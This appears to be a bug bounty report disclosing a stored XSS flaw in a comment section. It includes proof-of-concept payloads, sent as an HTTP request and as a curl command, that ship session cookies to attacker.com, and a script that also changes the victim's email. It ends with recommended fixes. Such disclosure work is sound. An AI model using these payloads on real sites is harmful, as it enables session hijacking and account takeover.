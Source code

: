 # Stored XSS in Comment Section with Session Hijacking

## Researcher
elite_bug_hunter

## Submission Date
2025-10-12

## Vulnerability Type
Cross-Site Scripting (XSS) - Stored

## Severity
High

## Affected Components
- /api/comments/create
- /comments/view/{id}
- CommentController.createComment()
- comment_display.js

## Description
A stored XSS vulnerability exists in the comment creation endpoint that allows attackers to inject malicious JavaScript code that executes in the context of other users' browsers. The application fails to properly sanitize HTML entities in user-submitted comments before rendering them on the page.

## Reproduction Steps

1. Navigate to https://example.com/comments/create
2. Submit a comment with the following XSS payload
3. The payload will be stored in the database without sanitization
4. When any user views the comment, the JavaScript executes
5. The attacker can steal session cookies and perform actions on behalf of the victim

## Proof of Concept

### HTTP Request to Create Malicious Comment

```http
POST /api/comments/create HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: session_id=abc123def456; user_token=xyz789
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxMjM0fQ

{
  "post_id": 42,
  "comment_text": "<img src=x onerror='fetch(\"https://attacker.com/steal?cookie=\"+document.cookie)'>",
  "author_name": "Innocent User"
}
```

### Alternative cURL Command

```bash
curl -X POST 'https://example.com/api/comments/create' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session_id=abc123def456; user_token=xyz789' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxMjM0fQ' \
  -d '{
    "post_id": 42,
    "comment_text": "<img src=x onerror='\''fetch(\"https://attacker.com/steal?cookie=\"+document.cookie)'\''>"
  }'
```

### More Sophisticated Payload

```javascript
<script>
// Steal session cookie
var cookie = document.cookie;
var sessionId = cookie.match(/session_id=([^;]+)/)[1];

// Send to attacker's server
fetch('https://attacker.com/collect', {
  method: 'POST',
  body: JSON.stringify({
    cookie: cookie,
    sessionId: sessionId,
    url: window.location.href,
    userAgent: navigator.userAgent
  })
});

// Perform actions on behalf of user
fetch('/api/account/change-email', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({email: 'attacker@evil.com'})
});
</script>
```

## Impact

This vulnerability allows an attacker to:

1. **Session Hijacking**: Steal session cookies and impersonate users
2. **Account Takeover**: Change user settings, email addresses, or passwords
3. **Data Theft**: Access sensitive user information
4. **Malware Distribution**: Redirect users to malicious sites
5. **Phishing**: Display fake login forms to steal credentials
6. **Defacement**: Modify page content for all users viewing the comment

The impact is severe because:
- The XSS is **stored** (persistent), affecting all users who view the comment
- The affected page is high-traffic (comment section)
- Session cookies are not marked as HttpOnly
- No Content Security Policy (CSP) is implemented

## Recommended Fix

1. Implement proper output encoding using a library like DOMPurify
2. Set HttpOnly flag on session cookies
3. Implement Content Security Policy (CSP) headers
4. Use a templating engine with auto-escaping
5. Validate and sanitize all user input on the server side

## Attachments
- screenshot_xss_execution.png
- network_capture.har
- poc_video.mp4

